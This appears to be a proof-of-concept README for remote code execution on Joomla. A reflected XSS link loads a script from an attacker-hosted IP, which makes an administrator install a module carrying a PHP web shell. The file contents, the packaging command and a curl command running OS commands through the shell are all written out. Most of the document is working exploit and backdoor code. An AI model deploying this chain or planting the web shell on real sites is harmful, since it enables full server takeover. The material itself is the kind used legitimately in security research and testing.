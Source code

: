 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Joomla module containing PHP payload] backdoor source code

(`mod_RCE_PoC.xml`)

```
<?xml version="1.0" encoding="utf-8"?>
<extension type="module" version="3.8" client="site" method="upgrade">
	<name>Joomla RCE PoC</name>
	<creationDate>Feb 2024</creationDate>
	<author>test</author>
	<authorEmail>test@localhost</authorEmail>
	<authorUrl>https://localhost</authorUrl>
	<copyright>test</copyright>
	<version>1.0</version>
	<files>
		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
		<filename>mod_RCE_PoC.xml</filename>
	</files>
</extension>
```

(`mod_RCE_PoC.php`)

```
<?php
if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
?>
```

2. [create Joomla module containing PHP payload] create Joomla module

```
zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
```

3. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

4. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/installModuleJoomla.js></script>
```

5. execute OS command

```
curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
```

6. [optional] uninstall module

*Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshots

![Image](screenshots/Joomla_-_install_module_-_1-1.png)
